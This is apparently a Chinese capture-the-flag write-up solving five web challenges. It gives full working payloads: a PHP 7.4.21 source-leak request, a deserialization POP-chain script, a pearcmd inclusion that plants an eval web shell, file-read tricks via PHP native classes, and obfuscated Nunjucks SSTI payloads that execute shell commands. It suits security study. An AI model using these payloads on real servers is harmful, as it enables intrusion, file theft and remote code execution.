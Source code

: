 ## funnyPHP



首先给了一个 `phpinfo()`，给了 PHP version 7.4.21，并且说 `puzzle.php` 里面有东西，去到 `puzzle.php`

![puzzle](images/puzzle.png)

根据给的 `phpinfo()` 信息，PHP 版本是 7.4.21，存在远程源码泄露漏洞

```none
GET /puzzle.php HTTP/1.1
Host: 47.104.14.160:3345


GET / HTTP/1.1
```



这里注意要把 `content-length` 关掉，攻击效果如图

![phpLeak](images/phpLeak.png)



得到源码，构造 pop 链攻击，这里就比较简单了，只需要让 C 类里面的 `$this->b=true` 即可，并且构造 sdpc 为 `Evil::getflag`，最终 EXP 如下

```php
<?php
error_reporting(0);

class A{
    public $sdpc = ["sdpc" => ["Evil","getflag"]];
}


class C{
    public $b;
    protected $c;

    function __construct(){
        $this->c = new A();
        $this->b =true;
    }

}

$a = new C();
$b = serialize($a);
echo urlencode($b);

?>
```

![funnyPHPFlag](images/funnyPHPFlag.png)

## ezinclude

简单的文件包含，最简单的过滤没做，可以直接读 `etc/passwd`

![funnyPHPFlag](images/etcPasswd.png)

但是这里读不到 flag，尝试写入🐎，如果要写🐎，并且在伪协议被 ban 的情况下，明显是 P 神的这篇文章

https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html

用 pearcmd 的方式进行文件包含写 shell

- config-create

payload

```none
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
```

连马拿 flag



## ezphp

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$g = $_GET['g'];
$t = $_GET['t'];
echo new $g($t);
```

考的原生类

```payload
/?g=DirectoryIterator&t=glob://f*
```

读取到存在 flag.php，读

![funnyPHPFlag](images/dir.png)

原生类读 flag

```payload
/?g=SplFileObject&t=php://filter/convert.base64-encode/resource=flag.php
```

![funnyPHPFlag](images/ezphpFlag.png)



PD9waHANCiRmbGFnID0gImZsYWd7ZDczMmVlYTAtNjNkYy00OTA5LWE5YjAtYTYzOWQ4ZTE4YWE2fSI7DQo/Pg==

$flag = "flag{d732eea0-63dc-4909-a9b0-a639d8e18aa6}

## babyphp

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

$num = $_GET['num'];

if (preg_match("/\'|\"|\`| |<|>|?|\^|%|\$/", $num)) {
    die("nononno");
}

if (eval("return ${num} != 2;") && $num == 0 && is_numeric($num) != true) {
    system('cat flag.php');
} else {
    echo '2';
}
```

简单题，payload

```payload
/?num=%00000
```

![funnyPHPFlag](images/babyPHPFlag.png)



## Nunjucks



Nunjucks 是一个模板引擎，这个题目尝试用 1，1 登录，发现 username 似乎是被拼接了，那么 ssti 点应该是在 username 的输入框里头

探测漏洞，`username={{7*7}}`，回显是 49，证明存在 SSTI

![funnyPHPFlag](images/sstiPOC.png)



先用这个 payload 打，发现会被拦截

```payload
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__ == 'catch_warnings' %}{% for b in c.__init__.__globals__.values() %}{% if b.__class__ == {}.__class__ %}{% if 'eval' in b.keys() %}{{ b['eval']('__import__("os").popen("id").read()') }}{% endif %}{% endif %}{% endfor %}{% endif %}{% endfor %}
```

换了一个 payload 打

```payload
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```

经过 fuzz 测试，过滤了以下字符

```none
空格|joiner|\'|range|root|cycler|constructor|toString|mainModule|main|require|\.|process|exec|object|file|spawn|eval|concat|base|buffer|from
```

绕过空格可以用加号拼接，当然加号要经过 URL 编码，用 `[]` 来绕过 `.`，一些关键字用 unicode 绕过

最终 payload

```payload
{{"string"["toSt"+"ring"]["const"+"ructor"]("return(global[\"\\u0070\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\"][\"\\u006d\\u0061\\u0069\\u006e\\u004d\\u006f\\u0064\\u0075\\u006c\\u0065\"][\"\\u0072\\u0065\\u0071\\u0075\\u0069\\u0072\\u0065\"](\"\\u0063\\u0068\\u0069\\u006c\\u0064\\u005f\\u0070\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\")[\"\\u0065\\u0078\\u0065\\u0063\\u0053\\u0079\\u006e\\u0063\"](\"id\")[\"\\u0074\\u006f\\u0053\\u0074\\u0072\\u0069\\u006e\\u0067\"]())")()}}

// {{'string'.constructor.constructor("return global.process.mainModule.require('child_process').execSync('id').toString()")()}}
```

![funnyPHPFlag](images/idExecute.png)



修改成 cat flag 的命令



```none
{{"string"["toSt"+"ring"]["const"+"ructor"]("return(global[\"\\u0070\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\"][\"\\u006d\\u0061\\u0069\\u006e\\u004d\\u006f\\u0064\\u0075\\u006c\\u0065\"][\"\\u0072\\u0065\\u0071\\u0075\\u0069\\u0072\\u0065\"](\"\\u0063\\u0068\\u0069\\u006c\\u0064\\u005f\\u0070\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\")[\"\\u0065\\u0078\\u0065\\u0063\\u0053\\u0079\\u006e\\u0063\"](\"\\u0063\\u0061\\u0074\\u0020\\u002f\\u0066\\u006c\\u0061\\u0067\")[\"\\u0074\\u006f\\u0053\\u0074\\u0072\\u0069\\u006e\\u0067\"]())")()}}

// UrlEncode
%7B%7B%22string%22%5B%22toSt%22%2B%22ring%22%5D%5B%22const%22%2B%22ructor%22%5D(%22return(global%5B%5C%22%5C%5Cu0070%5C%5Cu0072%5C%5Cu006f%5C%5Cu0063%5C%5Cu0065%5C%5Cu0073%5C%5Cu0073%5C%22%5D%5B%5C%22%5C%5Cu006d%5C%5Cu0061%5C%5Cu0069%5C%5Cu006e%5C%5Cu004d%5C%5Cu006f%5C%5Cu0064%5C%5Cu0075%5C%5Cu006c%5C%5Cu0065%5C%22%5D%5B%5C%22%5C%5Cu0072%5C%5Cu0065%5C%5Cu0071%5C%5Cu0075%5C%5Cu0069%5C%5Cu0072%5C%5Cu0065%5C%22%5D(%5C%22%5C%5Cu0063%5C%5Cu0068%5C%5Cu0069%5C%5Cu006c%5C%5Cu0064%5C%5Cu005f%5C%5Cu0070%5C%5Cu0072%5C%5Cu006f%5C%5Cu0063%5C%5Cu0065%5C%5Cu0073%5C%5Cu0073%5C%22)%5B%5C%22%5C%5Cu0065%5C%5Cu0078%5C%5Cu0065%5C%5Cu0063%5C%5Cu0053%5C%5Cu0079%5C%5Cu006e%5C%5Cu0063%5C%22%5D(%5C%22%5C%5Cu0063%5C%5Cu0061%5C%5Cu0074%5C%5Cu0020%5C%5Cu002f%5C%5Cu0066%5C%5Cu006c%5C%5Cu0061%5C%5Cu0067%5C%22)%5B%5C%22%5C%5Cu0074%5C%5Cu006f%5C%5Cu0053%5C%5Cu0074%5C%5Cu0072%5C%5Cu0069%5C%5Cu006e%5C%5Cu0067%5C%22%5D())%22)()%7D%7D


// {{'string'.constructor.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag').toString()")()}}
```

![funnyPHPFlag](images/nunjucksFlag.png)







